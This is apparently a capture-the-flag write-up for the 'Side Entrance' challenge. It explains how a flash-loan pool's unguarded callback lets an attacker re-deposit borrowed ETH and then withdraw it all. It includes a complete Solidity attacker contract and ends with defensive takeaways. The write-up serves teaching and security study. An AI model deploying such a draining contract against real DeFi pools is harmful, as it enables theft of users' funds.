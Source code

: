 # Summary

## Original Contract and Challenge

The SideEntranceLenderPool contract allows users to deposit and withdraw ETH. It also offers free flash loans using the deposited ETH to promote the system. The challenge is to drain all 1000 ETH from the pool, starting with an initial balance of 1 ETH.

## Vulnerability

The vulnerability lies in the `flashLoan()` function of the SideEntranceLenderPool contract. It allows any contract to call its `execute()` function with the loaned amount:

```solidity
IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();
```

This is risky because it exposes the contract to potentially malicious implementations of the execute() function.

## Exploit

The exploit involves creating an attacker contract (AttackSideEntrance) with the following functions:

`attack(uint256 amount)`: Calls the `flashLoan()` function in the vulnerable contract to borrow the specified amount, then calls the `withdraw()` function.
`execute()`: Called by the vulnerable contract, this function deposits the borrowed ETH back into the pool, updating the internal balances mapping.
receive(): Transfers the stolen ETH to the attacker's address.

```solidity
contract AttackSideEntrance {
    SideEntranceLenderPool pool;
    address payable owner;

    constructor(address _chal) {
        pool = SideEntranceLenderPool(_chal);
        owner = payable(msg.sender);
    }

    function attack(uint256 amount) external {
        pool.flashLoan(amount);
        pool.withdraw();
    }

    function execute() external payable {
        pool.deposit{value: address(this).balance}();
    }

    receive() external payable {
        owner.transfer(address(this).balance);
    }
}
```

## Deploy the attacker contract.

Call the `attack()` function, borrowing all ETH from the pool and depositing it back.
The vulnerable contract's `flashLoan()` function completes successfully.
The attacker contract's attack() function calls withdraw() to drain all ETH from the pool.

## Takeaways

To avoid such vulnerabilities, it is crucial to follow best practices when making external calls and not to trust other contracts blindly. Implementing the transfer execution within the `flashLoan()` function instead of delegating it to an unknown external contract would have made the SideEntranceLenderPool contract more secure.
